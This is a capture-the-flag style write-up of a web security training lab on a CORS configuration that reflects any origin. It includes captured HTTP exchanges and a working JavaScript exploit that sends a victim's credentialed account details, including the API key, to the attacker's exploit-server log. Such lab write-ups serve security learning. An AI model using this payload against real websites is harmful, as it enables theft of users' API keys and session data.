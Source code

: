This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Login with wiener:peter

Observe GET /accountDetails request

```http
GET /accountDetails HTTP/2
Host: 0ae200b404787403816fd90e00d600d5.web-security-academy.net
...
```

response
```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "ECAUAxXBHOgyn25gqKc57MDySXM1h7Y4",
  "sessions": [
    "hYmgDlci67bxvYyRwGg4FxpVphEZDd8c"
  ]
}
```

Add Origin header into request

```http
GET /accountDetails HTTP/2
Host: 0ae200b404787403816fd90e00d600d5.web-security-academy.net
Origin: example.com
...
```

response
```http
HTTP/2 200 OK
Access-Control-Allow-Origin: example.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149
...
```

Origin is being reflected in response Access-Control-Allow-Origin header.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin

Store exploit in exploit server:

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://0ae200b404787403816fd90e00d600d5.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

Deliver exploit to victim and view access logs to get the response of the cross origin request to LAB/accountDetails
- submit API key from access log
